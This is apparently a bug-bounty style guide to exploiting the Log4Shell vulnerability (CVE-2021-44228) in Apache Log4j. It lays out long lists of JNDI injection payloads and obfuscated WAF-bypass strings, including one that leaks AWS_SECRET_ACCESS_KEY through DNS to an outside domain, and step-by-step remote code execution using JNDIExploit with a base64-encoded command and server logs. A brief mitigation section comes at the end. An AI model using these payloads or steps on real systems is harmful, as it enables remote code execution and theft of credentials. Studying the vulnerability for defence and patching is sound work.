




CVE-2021-44228 - Log4J Start to End Guide Book
1. Introduction
The Log4J vulnerability is triggered by attackers inserting a JNDI lookup in a header field (likely to be logged) linking to a malicious server. After Log4j logs this string, the server is queried and gives directory information leading to the download and execution of a malicious java data class Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled. From log4j 2.15.0, this behavior has been disabled by default. Affected versions are 2.0 <= Apache log4j <= 2.14.1

LOG4SHELL is a Remote Code Execution vulnerability in the Apache Log4j library, a Java-based logging tool widely used in applications around the world. This vulnerability allows an attacker who can control log messages to execute arbitrary code loaded from attacker-controlled servers — and we anticipate that most apps using the Log4j library will meet this condition.
2. How it works ( Detection )
1. An attacker inserts the JNDI lookup/payload in a anywhere of request that is likely to be logged. (for instance: `${jndi:ldap://domain.com/j}`)
2. The payload is passed to log4j for logging.
3. Log4j interpolates the string and queries the malicious ldap server.
4. The ldap server responds with directory information that contains the malicious java class.
5. Java deserializes or download the malicious java class and execute it.
3. Simple DNS Log Monitor Services
1. - [canarytokens]
2. - [ceye]
3. - [dnslog]
4. - [requestbin]
5. - [burp collaborator]
6. - [run your own dns servers]
4. Steps to reproduce
1. Find the target.
2. Create DNS Service for Callback

3. Fire the payload into input field and Find out any field which may be logged. For example,
the endpoint which you are accessing, User-Agent, Referrer, things which you search, something which you submit in some form, etc.Headers.

4. If you get the ping back then you good to go.Before that read this awesome writeup about pingbacks Pingback Doubts

5. For getting Java version, we’ll use this one: ${jndi:ldap://z${sys:java.version}.xyz.burpcollaborator.net/rce}
Payloads & WAF Bypasses
Want to know the Java version running on the target?
${jndi:ldap://${sys:java.version}.collaborator.com}
${env:JAVA_VERSION}
${sys:java.version}
${hostName}
${sys:java.vendor}
${jndi:ldap://domain.com/j}
${jndi:ldap:/domain.com/a}
${jndi:dns:/domain.com}
${jndi:dns://domain.com/j}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://domain.com/j}
${${::-j}ndi:rmi://domain.com/j}
${jndi:rmi://domainldap.com/j}
${${lower:jndi}:${lower:rmi}://domain.com/j}
${${lower:${lower:jndi}}:${lower:rmi}://domain.com/j}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://domain.com/j}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://domain.com/j}
${jndi:${lower:l}${lower:d}a${lower:p}://domain.com}
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//domain.com/a}
jn${env::-}di:
jn${date:}di${date:':'}
j${k8s:k5:-ND}i${sd:k5:-:}
j${main:\k5:-Nd}i${spring:k5:-:}
j${sys:k5:-nD}${lower:i${web:k5:-:}}
j${::-nD}i${::-:}
j${EnV:K5:-nD}i:
j${loWer:Nd}i${uPper::}
=======
Bypass WAF
1. ${jndi:ldap://127.0.0.1:1389/ badClassName}
2. ${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
3. ${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
4. ${jndi:rmi://adsasd.asdasd.asdasd}
5. ${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.mydogsbutt.com}
=========
If you're filtering on "ldap", "jndi", or the ${lower:x} method, I have bad news for you:
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}
=====
Log4j Cloudflare bypass :
${jndi:dns://aeutbj.example.com/ext}
${jndi:${lower:l}${lower:d}a${lower:p}://example.com/
https://pbs.twimg.com/media/FGVKwNYXIAMQ5nH?format=jpg&name=small
Just bypassed AWS WAF for log4j jndi injection: @11xuxx
${j${k8s:k5:-ND}i${sd:k5:-:}ldap://mydogsbutt.com:1389/o}
==
Non-Exploitable:
${jndi:ldap://${k8s:podName}.domain.com/j}
${jndi:ldap://${k8s:imageId}.domain.com/j}
${jndi:ldap://${k8s:imageName}.domain.com/j}
${jndi:ldap://${log4j:configLocation}.domain.com/j}
${jndi:ldap://${log4j:configParentLocation}.domain.com/j}
${jndi:ldap://${spring:spring.application.name}.domain.com/j}
${jndi:ldap://${main:myString}.domain.com/j}
${jndi:ldap://${main:0}.domain.com/j}
${jndi:ldap://${main:1}.domain.com/j}
${jndi:ldap://${main:2}.domain.com/j}
${jndi:ldap://${main:3}.domain.com/j}
${jndi:ldap://${main:4}.domain.com/j}
${jndi:ldap://${main:bar}.domain.com/j}
5.Exploitaion
1. Before RCE, Make sure and try to get the Java version and os name of the target. For getting os name, we’ll use this payload: ${jndi:ldap://${sys:os.name}.xyz.burpcollaborator.net/a}
2. Now download this zip file in your instance and unzip it.Here
3. Start the LDAP server
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i YOUR_PUBLIC_IP -p 8888
4. We just need to inject the payload.${jndi:ldap://YOUR_PUBLIC_IP:1389/Basic/Command/Base64/BASE64_ENCODED_COMMAND}
5. we’ll encode our command in base64:

6. You can see the hit like below:
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned
[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119 /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
6.Mitigation
1. SPOT VULNERABLE APPLICATIONSAsk admin/system team to run a search/grep command on all servers to spot any file with the name “log4j2”, Then check if it is a vulnerable version or not”
2. PERMANENT MITIGATION
Version 2.15.0 of log4j has been released without the vulnerability. log4j-core.jar is available on Apache Log4j page below, You can download it and update your system
3. TEMPORARY MITIGATION
“Add
“log4j.format.msg.nolookups=true” to the global configuration of your server/web applications”References & Credits
Thanks you so much
Features:-- Good Nesting controls
- Unlimited pages
- You can share your page with anyone
- Provides API (Good for automation
- Easy to use and free
- Easily Accessible